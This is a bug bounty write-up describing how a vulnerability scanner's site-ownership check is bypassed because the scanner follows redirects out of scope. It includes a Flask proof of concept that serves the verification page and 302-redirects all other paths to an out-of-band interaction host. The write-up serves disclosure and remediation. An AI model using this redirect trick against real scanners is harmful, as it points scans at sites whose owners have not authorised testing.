

# \[Bug Bounty] URL Validation Bypass

## 1. Context

`redirect.com` developed Software X, which became widely adopted and is now used by millions of people.

The same company later developed Software Z, a powerful vulnerability-scanning tool designed to scan Software X applications for security vulnerabilities.

Because Software Z is a powerful security tool, `redirect.com` introduced a verification mechanism to ensure that users are authorized to scan an application before they can use the scanner.

The verification process works as follows:

1. The user starts the verification process and provides the application they want to scan.
2. Software Z generates a unique HTML comment.
3. The user is required to add this generated comment to their own application.
4. The scanner then sends a request to the provided application and checks whether the generated comment is present.
5. If the comment is found, the application is considered verified.
6. The user is then redirected to the scanning dashboard, where they can configure and launch vulnerability scans and generate reports.

This verification mechanism is intended to ensure that users can only scan applications they control or are authorized to test.

### Vulnerability

I found a way to bypass the application's verification mechanism by taking advantage of how it handles redirects.

The verification mechanism expects the scanner to request the application that was originally submitted and verify that the generated HTML comment is present.

I wondered what would happen if I placed the generated comment on a specific route while configuring all other routes to redirect to an external domain such as `target.com`.

The expected behavior should be that the scanner follows redirects only if the final destination remains within the originally submitted scope.

However, the application did not appear to validate whether the final redirect destination was still within the authorized scope.

Because the verification mechanism considered the verification successful without validating the final destination, I was able to bypass the intended ownership check.

I tested this scenario against a controlled test environment, and the bypass worked as expected.

This means that an attacker could potentially use the scanner to verify and scan an application they are not authorized to test, as long as they can cause the verification flow to reach the required verification content and then redirect to an external destination.

The security issue is therefore not simply the existence of an external redirect. The core problem is that **the verification mechanism does not properly enforce the original target scope across the redirect chain**.

#### Proof of Concept

To reproduce the behavior in a controlled environment, I created a simple Flask application.

The application serves the verification file from a specific route. Any other route redirects to an external destination.

The relevant behavior can be represented as:

<figure><figcaption></figcaption></figure>

The following simplified Flask application was used to reproduce this behavior:

```python
import os
from flask import Flask, redirect, request, send_file

app = Flask(__name__)
target_URL = "https://vjhbn37ifad1z4c2etfzbtcskt567dg87.oast.site"

BASE_DIR = os.path.dirname(os.path.abspath(__file__))
CHECK_FILE = os.path.join(BASE_DIR, "check.html")


def serve_check():
    return send_file(CHECK_FILE, mimetype="text/html")

@app.route("/", strict_slashes=False)
@app.route("/check.html", strict_slashes=False)
def index():
    return serve_check()

@app.route("/<path:subpath>", strict_slashes=False)
def catch_all(subpath):
    # Safety check: normalize and check if it's check.html
    clean_path = subpath.strip("/")
    if clean_path == "check.html":
        return serve_check()

    target_url = f"{target_URL.rstrip('/')}/{clean_path}"

    if request.query_string:
        target_url = f"{target_url}?{request.query_string.decode('utf-8')}"

    return redirect(target_url, code=302)


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)

```

The important part of the PoC is the distinction between the **verification route** and the **redirecting routes**. This allowed me to reproduce the condition where the verification content exists on the expected application, while subsequent requests can be redirected outside the original scope.

***


##
